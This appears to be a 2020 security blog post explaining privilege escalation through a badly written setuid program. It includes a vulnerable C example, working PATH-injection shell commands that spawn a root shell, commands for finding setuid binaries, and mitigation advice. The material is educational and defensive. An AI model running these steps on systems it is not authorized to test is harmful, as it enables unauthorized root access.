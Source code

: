 +++
title = "Privilege escalation using setuid"
date = "2020-09-17"
author = "Aloïs Micard"
authorTwitter = "" #do not include @
cover = ""
tags = ["Security", "Privilege Escalation"]
keywords = ["", ""]
description = ""
showFullContent = false
+++

[Setuid](https://en.wikipedia.org/wiki/Setuid) is a Unix access rights flag that allow users to run an executable 
with the file system permissions of the executable's owner.

For example the following executable:

```sh
$ stat /usr/bin/passwd
  File: /usr/bin/passwd
  Size: 63736     	Blocks: 128        IO Block: 4096   regular file
Device: 801h/2049d	Inode: 2237        Links: 1
Access: (4755/-rwsr-xr-x)  Uid: (    0/    root)   Gid: (    0/    root)
```

will be executed as root (Uid 0), no matter what the current user is.
This feature allows un-privileged user to change their password by editing `/etc/shadow` (root owner) using passwd.

# How setuid may be exploited?

As you may already guess, being able to run process as different user may have serious implications,
especially if the executable owner is root.

It means that executables with set{g,u}id flag must be carefully designed to prevent any exploitation.
This is generally the case for executables that comes with the OS, but sometimes administrator may install / craft
exploitable executable, that will greatly help hackers escalate privileges.

Let's see how we can exploit a badly designed setuid program to gain root access.

# Exploiting a setuid executable

They are multiple ways to exploit an executable (buffer overflow, stack overflow, etc...)
in this section we will focus on one of the most widely spread yet easy to use
vulnerability: path injection.

## Path injection

Path injection is a widely spread vulnerability. It happens when an executable refer to 
another executable without using the full path to it. Let's take an example:

```sh
$ cat apt-updater.c
#include <stdlib.h>
#include <unistd.h>

int main() {
  setuid(0);

  system("apt update");
  system("apt upgrade -y");
  return 0;
}
```

this executable has been designed by a sysadmin to allows user to update the server packages to their latest version (very bad practice btw).

While it may look simple & secure, it has an **important** vulnerability: a path injection vulnerability:

It uses the [apt](https://manpages.debian.org/stretch/apt/apt.8.fr.html) 
executable but doesn't invoke directly `/usr/bin/apt` but rather relies on apt to be in the [PATH](https://en.wikipedia.org/wiki/PATH_(variable)).

Let's see how we can use this at our advantages by polluting the PATH.

### How the PATH work exactly?

The PATH variable is used to lookup executables when issuing command. It is composed of directories to include
while searching, separated by a ':'.

For example: `/usr/local/bin:/usr/bin:/bin` means that executables will be searched in the following directories:

- /usr/local/bin
- /usr/bin
- /bin

The search will stop when the executable is found. It means that if apt is present in `/usr/local/bin/apt` it will not
be searched in the others directories.

### Exploiting the vulnerability

Since the executable relies on the PATH to lookup apt location, we can simply create a dummy `apt` executable script
that will just open a shell (/bin/sh) and place it into a directory that will be in the PATH.

```sh
$ mkdir /tmp/foo # create random directory to put the script
$ echo /bin/sh > /tmp/foo/apt # create the script that will launch /bin/sh
$ chmod 755 /tmp/foo/apt # mark it as executable
$ PATH=/tmp/foo:$PATH /usr/local/bin/apt-updater # override the PATH variable to that it contains /tmp/foo directory & execute the vulnerable program
# id # we are root!
uid=0(root) gid=1001(creekorful) groups=1001(creekorful)
```

When the OS has looked up the apt executable it has search in the following location:

- /tmp/foo
- [...]

since we have appended /tmp/foo at first, the OS was able to find the apt executable in it
and has executed it (with root privileges since they are propagated). 

# Finding vulnerable executables

Search for files with setuid bit set:

```sh
$ find / -xdev -perm -4000 2>/dev/null
/usr/local/bin/apt-updater
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/chsh
```

here almost all executables look 'classic' ones and may not be easily vulnerable.

One executable looks interesting: `/usr/local/bin/apt-updater`, it looks manually crafted
and may have been badly designed.

It is fairly easy to determinate if the executable is vulnerable: one could simply look if it calls
other executables without using full path.

This is done easily by using [strings](https://linux.die.net/man/1/strings).

```sh
$ strings /usr/local/bin/apt-updater
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
system
__cxa_finalize
__libc_start_main
[...]
apt update
apt upgrade -y
```

It looks like apt-updater run `apt update` and `apt upgrade -y` without using full path. 
Path injection may be possible.

# How to mitigate the exploit?

The easiest way to prevent these exploits is simply by not using set{g,u}id executable at ALL.
I mean, the ones installed by default can be trusted, but you shouldn't make one.

Better & simple options are available, such as using [sudoers](https://linux.die.net/man/5/sudoers) for example.

Happy hacking!
